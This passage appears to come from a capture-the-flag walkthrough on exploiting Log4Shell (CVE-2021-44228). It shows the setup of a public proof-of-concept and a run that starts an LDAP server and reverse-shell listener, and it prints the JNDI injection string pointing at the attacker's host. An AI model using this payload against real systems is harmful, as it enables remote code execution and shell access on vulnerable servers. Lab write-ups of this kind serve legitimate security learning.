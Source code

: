### Log4Shell Exploit

#### Prep

I had good luck with [this POC](https://github.com/kozmer/log4j-shell-poc) during Hackvent, so I’ll use it again. I’ll clone the repo to my computer and install the dependencies:

```

oxdf@hacky$ git clone https://github.com/kozmer/log4j-shell-poc.git
Cloning into 'log4j-shell-poc'...
remote: Enumerating objects: 52, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 52 (delta 0), reused 1 (delta 0), pack-reused 40
Receiving objects: 100% (52/52), 38.74 MiB | 44.42 MiB/s, done.
Resolving deltas: 100% (7/7), done.
oxdf@hacky$ cd log4j-shell-poc/ 
oxdf@hacky$ pip install -r requirements.txt
Defaulting to user installation because normal site-packages is not writeable
Requirement already satisfied: colorama in /usr/lib/python3/dist-packages (from -r requirements.txt (line 1)) (0.4.4)
Collecting argparse
  Using cached argparse-1.4.0-py2.py3-none-any.whl (23 kB)
Installing collected packages: argparse
Successfully installed argparse-1.4.0  

```

There’s also instructions on the repo for downloading a specific Java binary from [this page](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html). I’ll download [jdk-8u20-linux-x64.tar.gz](https://download.oracle.com/otn/java/jdk/8u20-b26/jdk-8u20-linux-x64.tar.gz) from he bottom of that page, and extract it:

```

oxdf@hacky$ tar xf jdk-8u20-linux-x64.tar.gz 
oxdf@hacky$ rm jdk-8u20-linux-x64.tar.gz 
oxdf@hacky$ ls
Dockerfile  jdk1.8.0_20  LICENSE  poc.py  README.md  requirements.txt  target  vulnerable-application

```

#### Run Fail

I’ll run the exploit, giving it my IP, a web port to listen on, and the port I want a shell back on:

```

oxdf@hacky$ python poc.py --userip 10.10.14.6 --webport 8000 --lport 443

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.6:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389

```
